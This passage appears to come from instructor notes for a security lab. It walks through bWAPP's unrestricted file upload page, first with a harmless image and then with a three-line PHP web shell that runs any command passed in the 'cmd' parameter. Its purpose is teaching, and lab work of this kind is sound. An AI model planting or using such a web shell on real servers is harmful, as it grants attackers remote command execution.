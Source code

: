     - Return to the file upload webpage at <http://192.168.1.100/bWAPP/unrestricted_file_upload.php>.

    - Explain that we will upload an image that has already been added to the desktop of the computer.
      
      - Select Browse.
      
      - From the desktop, select the image `sample_picture.jpg`. This should take you back to the file upload webpage and show the image selected.
      
      - Select Upload.

      - It should display the following image:

        ![On the Unrestricted File Upload page of the bWAPP website, a red arrow points to the message, "The image has been uploaded here."](Images/LFI7.png) 
  
    - Select **here** to take you to the image that was just uploaded. This will take you to a page to display the image!

    - Point to the URL of this page: <http://192.168.1.100/bWAPP/images/sample_picture.jpg>. Specifically note the `.jpg` extension.
 
    - Return to the terminal and access the images directory, then show that the image we uploaded was added to the filesystem: 
 
      - `cd images`
 
      - `ls sample-image.jpg`
 
    - Summarize that this step shows the intended functionality of the web application: to allow a user to upload image files to the web application's local filesystem, which can later be accessed and displayed by the user.
  
5. Next we'll upload a malicious PHP script. We will use a custom PHP script called `script.php`, which is designed to enable a malicious user to execute code remotely. 

    - This script looks as follows (note that students don't need to understand the syntax of this script):

          <?php
          $command = $_GET['cmd'];
          echo system($command);
          ?>
 
   - Return to the desktop of your Vagrant machine and show that the script has already been created and added there.

